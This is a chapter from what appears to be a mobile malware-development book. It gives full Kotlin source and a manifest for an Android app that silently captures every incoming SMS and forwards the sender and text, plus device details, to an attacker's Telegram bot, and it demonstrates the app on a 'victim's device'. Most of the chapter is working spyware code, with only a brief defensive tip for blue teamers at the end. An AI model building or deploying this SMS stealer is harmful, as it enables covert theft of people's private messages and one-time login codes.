\newpage
\subsection{12. mobile malware development trick. Abuse Telegram Bot API: SMS receiver. Simple Android (Java/Kotlin) Broadcast example.}

﷽

{height=400px}    

In this example, we will demonstrate how broadcast receivers in Android can be abused by malicious actors to listen for system events, such as `SMS` received, and send sensitive data to a remote server using legitimate APIs like Telegram Bot API. We'll explore how broadcast listeners can be used to exfiltrate data such as incoming `SMS` messages and send it to an attacker's Telegram chat without the user's knowledge.     

While broadcast receivers are designed for legitimate system notifications, adversaries can exploit them for malicious purposes, such as stealing information or maintaining command-and-control (C2) channels.    

### practical example

In this case, the malicious app listens for the `SMS_RECEIVED` broadcast, which is triggered whenever the phone receives a new `SMS`. The app then extracts the sender and message body and sends this data to an attacker-controlled Telegram bot. The attacker can then collect sensitive information, such as `SMS` content or phone numbers, from the infected device.    

Your project's structure looks like there (`HackContacts2`):     

{width="80%"}       

First of all you need to add permissions to manifest file:    

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools">

    <uses-feature
        android:name="android.hardware.telephony"
        android:required="false" />

    <uses-permission android:name="android.permission.RECEIVE_SMS"/>
    <uses-permission android:name="android.permission.INTERNET"/>

    <application
        android:allowBackup="true"
        android:dataExtractionRules="@xml/data_extraction_rules"
        android:fullBackupContent="@xml/backup_rules"
        android:icon="@drawable/icon"
        android:label="@string/app_name"
        android:roundIcon="@drawable/icon"
        android:supportsRtl="true"
        android:theme="@style/Theme.HackSms"
        tools:targetApi="31">
        
        <!-- register the receiver for SMS received -->
        <receiver android:name=".HackSmsBroadcast" android:exported="true" android:permission="android.permission.BROADCAST_SMS">
            <intent-filter>
                <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
            </intent-filter>
        </receiver>
        
        <activity
            android:name=".HackMainActivity"
            android:exported="true"
            android:theme="@style/Theme.HackSms">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

As you can see, the manifest file declares the necessary permissions and registers the broadcast receiver to listen for incoming SMS messages.    

The receiver listens for the `SMS_RECEIVED` intent, which is triggered when the device receives a new `SMS` message:    

```xml
<receiver android:name=".HackSmsBroadcast" android:exported="true" android:permission="android.permission.BROADCAST_SMS">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

Then, we need `SMS` receiver logic. Our receiver checks whether the app has the `RECEIVE_SMS` permission before processing the incoming message:    

```kotlin
@SuppressLint("NewApi")
fun isPermissionGranted(context: Context): Boolean {
    val isGranted = context.checkSelfPermission(Manifest.permission.RECEIVE_SMS)
    return isGranted == PackageManager.PERMISSION_GRANTED
}

override fun onReceive(context: Context, intent: Intent) {
    if (intent.action == "android.provider.Telephony.SMS_RECEIVED") {
        if (isPermissionGranted(context)) {
            // ... new incoming sms processing logic
            // ... 
        }
    }
}
```

When an `SMS` is received, the `SmsMessage` class is used to extract the sender and message body:    

```kotlin
val bundle = intent.extras
val messages: Array<SmsMessage?>?
var sender: String?
if (bundle != null) {
    val pdus = bundle["pdus"] as Array<*>?
    messages = arrayOfNulls(pdus!!.size)
    for (i in messages.indices) {
        messages[i] = SmsMessage.createFromPdu(pdus[i] as ByteArray)
        sender = messages[i]!!.originatingAddress
        val msgBody = messages[i]!!.messageBody
        // Send the SMS details to the Telegram bot
        HackNetwork(context).sendTextMessage(
            "SMS from: $sender\n" +
            "SMS text: $msgBody"
        )
    }
}
```

As you can see, the extracted `SMS` data is sent via Telegram bot using the `HackNetwork` class.

Finally, this `BroadcastReceiver` listens for the incoming `SMS` message, extracts the sender's information and message body, and sends it to the attacker via the Telegram bot:     

```kotlin
package cocomelonc.hacksms

import android.Manifest
import android.annotation.SuppressLint
import android.content.BroadcastReceiver
import android.content.Context
import android.content.Intent
import android.content.pm.PackageManager
import android.telephony.gsm.SmsMessage

class HackSmsBroadcast : BroadcastReceiver() {

    @SuppressLint("NewApi")
    fun isPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.RECEIVE_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }

    override fun onReceive(context: Context, intent: Intent) {
        if (intent.action == "android.provider.Telephony.SMS_RECEIVED") {
            if (isPermissionGranted(context)) {
                val bundle = intent.extras
                val messages: Array<SmsMessage?>?
                var sender: String?
                if (bundle != null) {
                    val pdus = bundle["pdus"] as Array<*>?
                    messages = arrayOfNulls(pdus!!.size)
                    for (i in messages.indices) {
                        messages[i] = SmsMessage.createFromPdu(pdus[i] as ByteArray)
                        sender = messages[i]!!.originatingAddress
                        val msgBody = messages[i]!!.messageBody
                        // Send the SMS details to the Telegram bot
                        HackNetwork(context).sendTextMessage(
                            "SMS from: $sender\n" +
                            "SMS text: $msgBody"
                        )
                    }
                }
            }
        }
    }
}
```

Then we need a class for communicating with Telegram Bot API. Code is simple, same like before, `OkHttp` is used to send the `SMS` data (sender and message) via a `POST` request to the Telegram Bot API:     

```kotlin
package cocomelonc.hacksms

import android.content.Context
import okhttp3.Call
import okhttp3.Callback
import okhttp3.FormBody
import okhttp3.OkHttpClient
import okhttp3.Request
import okhttp3.Response
import java.io.IOException

class HackNetwork(private val context: Context) {

    private val client = OkHttpClient()

    // function to send message using OkHttp to Telegram Bot API
    fun sendTextMessage(message: String) {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$message\n\n$meow\n\n"

        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // send the request asynchronously using OkHttp
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
                if (response.isSuccessful) {
                    println("Message sent successfully: ${response.body?.string()}")
                } else {
                    println("Error: ${response.body?.string()}")
                }
            }
        })
    }

    // fetch Telegram bot token and chatId from assets
    private fun getTokenFromAssets(): String {
        return context.assets.open("token.txt").bufferedReader().readText().trim()
    }

    private fun getChatIdFromAssets(): String {
        return context.assets.open("id.txt").bufferedReader().readText().trim()
    }
}
``` 

The last one is `HackMainActivity`. This activity requests the `RECEIVE_SMS` permission before starting the functionality of the app. It also sets up a button just show `Meow ♥️` and send to Telegram like indicator: `Meow ♥️` -> "Everything is ok, SMS Hack app installed".     

```kotlin
package cocomelonc.hacksms

import android.Manifest
import android.os.Bundle
import android.content.Context
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast
import com.karumi.dexter.Dexter
import com.karumi.dexter.PermissionToken
import com.karumi.dexter.listener.PermissionDeniedResponse
import com.karumi.dexter.listener.PermissionGrantedResponse
import com.karumi.dexter.listener.PermissionRequest
import com.karumi.dexter.listener.single.PermissionListener

class HackMainActivity : ComponentActivity() {
    private lateinit var meowButton: Button

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        // grant RECEIVE_SMS permission
        grantSmsReceivePermissions(this)

        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(applicationContext, "Meow! ♥️\uFE0F", Toast.LENGTH_SHORT).show()
            HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F") // send message via Telegram bot
        }

        HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F") // send message immediately on app start
    }

    // grant permissions logic
    private fun grantSmsReceivePermissions(context: Context) {
        Dexter.withContext(context)
            .withPermission(Manifest.permission.RECEIVE_SMS)
            .withListener(object : PermissionListener {
                override fun onPermissionGranted(p0: PermissionGrantedResponse?) {
                    Toast.makeText(context, "Hack SMS permission granted", Toast.LENGTH_SHORT).show()
                }

                override fun onPermissionDenied(p0: PermissionDeniedResponse?) {
                    Toast.makeText(context, "Hack SMS permission denied", Toast.LENGTH_SHORT).show()
                }

                override fun onPermissionRationaleShouldBeShown(
                    p0: PermissionRequest?,
                    p1: PermissionToken?
                ) {
                }
            }).check()
    }
}
```

### demo

Let's go to see everything in action. Build app, create apk file:     

{width="80%"}    

{width="80%"}    

Then install on the victim's device:     

{height="30%"}    

{height="30%"}    

As you can see, after install we get a message in Telegram:     

{width="80%"}     

Accepting permissions:     

{height="30%"}    

{height="30%"}     

At the final step, I just send new SMS to the victim's device for test:    

{height="30%"}    

{width="80%"}     

{width="80%"}     

As you can see, everything is worked perfectly! =^..^=    

Of course, in real cases we need to bypass security measures, like Google Play protection etc, etc. But for ethical reasons, I can not show this concepts in this book.     

Also you need to send some information about victim's phone, like this (`HackNetwork`):     

```kotlin
// ...
// function to send message using OkHttp to Telegram Bot API
fun sendTextMessage(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val info = getDeviceName() // like in the previous examples
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$info\n\n$message\n\n$meow\n\n"
    //....
}
```

This type of attack demonstrates the abuse of system broadcasts and is particularly dangerous because the app does not require the user to do anything except allow permissions.    

This technique is used by software like [Exodus](https://attack.cloudfall.cn/software/S0405/), [INSOMNIA](https://attack.cloudfall.cn/software/S0463/) and [MazarBOT](https://attack.cloudfall.cn/software/S0303/) in the wild.    

I hope this section is useful for blue teamers: monitor and audit apps that request sensitive permissions, like `RECEIVE_SMS`. Ensure that they need this permission for legitimate purposes.      

[Broadcasts](https://developer.android.com/develop/background-work/background-tasks/broadcasts)     
[BroadcastReceiver](https://developer.android.com/reference/android/content/BroadcastReceiver)     
[MITRE ATT&CK: Capture SMS Messages](https://attack.cloudfall.cn/techniques/T1412/)     
[Exodus](https://attack.cloudfall.cn/software/S0405/)    
[INSOMNIA](https://attack.cloudfall.cn/software/S0463/)    
[MazarBOT](https://attack.cloudfall.cn/software/S0303/)      
